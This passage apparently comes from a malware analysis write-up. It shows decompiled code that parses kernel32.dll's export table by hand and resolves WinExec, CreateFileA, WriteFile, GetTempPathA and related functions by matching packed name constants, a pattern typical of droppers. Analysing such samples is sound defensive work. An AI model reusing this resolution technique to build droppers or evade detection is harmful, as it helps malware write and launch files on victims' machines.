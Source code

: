 ```
	  if ( !addr_GetModuleHandleA )
	  {
		module_fname[13] = 0;
		*&module_fname[14] = 0;
		addr_GetModuleHandleA = func_addr;
		strcpy(module_fname, "Kernel32.dll");
		dll_base = func_addr(module_fname);		// Load kernel32.dll using GetModuleHandleA
		goto RECALCULATE_EXPORT_DIRECTORY_VALUES;	// Recalculate offsets to EAT, ENT, EOT, etc. considering base address of kernel32.dll.
	  }
	}
	...
	i++;
}
```

Consider the following decompiled code. It's pretty straightforward, so I've not added any explanatory comments. It just stores the addresses of specific functions that were parsed from the export directory of `kernel32.dll` (previously loaded through `GetModuleHandleA`.

```
while ( i < num_entries_eat )
{
	...
	else if ( funcname_ == 'EniW' && *(funcname + 1) == 'cex' )
	{
		addr_WinExec = func_addr;
	}
	else if ( funcname_ == 'solC' && *(funcname + 1) == 'naHe' && *(funcname + 2) == 'eld' )
	{
		addr_CloseHandle = func_addr;
	}
	else if ( funcname_ == 'tirW' && *(funcname + 1) == 'liFe' && *(funcname + 4) == 'e' )
	{
		addr_WriteFile = func_addr;
	}
	else
	{
		v14 = *funcname;
		if ( *funcname == 'aerC' && *(funcname + 1) == 'iFet' && *(funcname + 2) == 'Ael' )
		{
		addr_CreateFileA = func_addr;
		}
		else if ( v14 == 'TteG' && *(funcname + 1) == 'Ppme' && *(funcname + 2) == 'Ahta' )
		{
		addr_GetTempPathA = func_addr;
		}
		else if ( v14 == 'rtsl' && *(funcname + 1) == 'Atac' )
		{
		addr_lstrcatA = func_addr;
		}
	}
	if ( addr_GetModuleHandleA
	  && addr_CreateFileA
	  && addr_WriteFile
	  && addr_CloseHandle
	  && addr_WinExec
	  && addr_GetTempPathA
	  && addr_lstrcatA )
	{
		break;
	}
	i++;
}
```